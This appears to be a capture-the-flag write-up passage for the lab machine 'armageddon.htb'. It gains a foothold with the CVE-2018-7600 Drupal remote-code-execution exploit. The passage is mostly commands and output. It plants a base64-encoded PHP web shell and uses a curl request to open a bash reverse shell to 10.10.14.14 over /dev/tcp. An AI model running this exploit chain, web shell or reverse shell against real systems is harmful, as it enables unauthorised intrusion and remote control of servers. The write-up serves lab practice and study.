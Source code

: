 ## Foothold

### Drupal RCE

**Reference**: [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

**POC**:

```console
└─╼$ python drupa7-CVE-2018-7600.py -c 'id' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-DZmfzuPZ7OaYgoyoNj3vayZF3Qvvs1MV4jCq2MzlaWM
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

But, payload `ping -c 1 <ip>` is failed as well as no nc, bash rev shell, python rev shell and so on.

**Exploit**:

Create a local php file in Drupal site.

```console
└─╼$ python drupa7-CVE-2018-7600.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K | base64 -d | tee a.php' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-OvI3lrG5zLsLlS4I9UGNw5JeupuA85mvB8KEV3A3TLo
[*] Triggering exploit to execute: echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K | base64 -d | tee a.php
<?php system($_GET["cmd"]);?>
```

Trigger the php file with command injection:

- POC: `curl -G --data-urlencode "cmd=id" http://10.10.10.233/a.php`
- EXP: `curl -G --data-urlencode "cmd=bash -i >&/dev/tcp/10.10.14.14/443 0>&1" http://10.10.10.233/a.php`
  - port 443, 4444 is ok
  - port 1234, 4321, 5000 ... is failed

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.233] 55554
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-4.2$ uname -a
uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
